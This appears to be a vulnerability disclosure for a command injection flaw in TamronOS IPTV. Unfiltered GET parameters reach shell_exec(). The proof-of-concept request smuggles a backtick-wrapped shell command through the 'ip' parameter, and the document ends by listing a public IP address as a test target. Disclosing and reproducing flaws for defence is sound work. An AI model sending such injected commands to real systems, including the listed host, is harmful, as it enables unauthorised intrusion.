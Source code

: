 # Tamronos-iptv-detect-rce.md

The TamronOS IPTV system has command execution vulnerabilities

official website：http://www.tamronos.com/

## Vulnerability Details

The detect() method in the `iptv/Controllers/MptsController.php` file does not perform filtering verification on the `$_GET['address']` , `$_GET['ip']` passed in by the user. Instead, it is directly passed into function shell_exec() and can be used `` Truncating the command resulted in command injection.

![image](https://github.com/yuxianzi/Tamronos-iptv-CVE/assets/41229220/827c19e3-0f8f-40bd-a1b0-1e6f00620fe7)


Access the /api/mpts/detect path to call the detect() method


## Recurrence vulnerability

Test version : TamronOS IPTV 8.6.3 、  TamronOS IPTV/VOD系统 v5


request 
```
/api/mpts/detect?address=aaaa&ip=`touch+/cgi/public/js/aaa.txt`
```
![image](https://github.com/yuxianzi/Tamronos-iptv-CVE/assets/41229220/bc9862dd-3322-4b76-b054-9ff87eabccdd)

访问http://localhost.com/js/aaa.txt

![image](https://github.com/yuxianzi/Tamronos-iptv-CVE/assets/41229220/42362159-d64e-4f1b-9736-fbb72aa1caf3)


Test url
```
http://103.95.24.37/
```
